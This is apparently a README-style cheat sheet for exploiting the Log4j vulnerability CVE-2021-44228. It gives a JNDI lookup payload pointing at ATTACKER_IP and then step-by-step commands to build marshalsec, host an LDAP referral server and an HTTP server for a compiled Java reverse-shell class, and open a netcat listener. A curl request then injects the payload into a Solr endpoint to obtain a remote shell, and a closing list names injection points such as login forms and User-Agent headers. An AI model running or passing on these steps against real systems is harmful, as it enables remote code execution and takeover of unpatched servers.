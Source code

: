 ## CVE-2021–44228 Log4j

### CVSS Score: 10

### Tools: mvn marshalsec netcat JNDI Exploit kit https://github.com/pimps/JNDI-Exploit-Kit

### Payload example: ${jndi:ldap://ATTACKER_IP:1389/Exploit.class}

## Steps: 

#### 1) cd /marshalsec

#### 2) mvn clean package -DskipTests (Install marshalsec utility)

#### 3) java -cp target/marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://ATTACKER_IP:8000/#Exploit" (Host LDAP server with marshalsec)

#### 4) Create a java reverse shell exploit (Exploit.java)

#### 5) javac Exploit.java -target 8 -source 8 (Compile the java exploit into a class file (Exploit.class))

#### 6) python3 -m http.server 8000 (Host compiled payload to HTTP server)

#### 7)  nc -lvnp PORT (Setup listener)

#### 8) curl 'http://MACHINE_IP:8983/solr/admin/cores?foo=$\{jndi:ldap://ATTACKER_IP:1389/Exploit\}' (Send payload to target machine to get a reverse shell)

## JNDI syntax injection:

#### 1) Anywhere that has data logged by the application

#### 2) Input boxes, user and password login forms, data entry points within applications

#### 3) HTTP headers such as User-Agent, X-Forwarded-For, X-ApiVersion, or other customizable headers

#### 4) Any place for user-supplied data
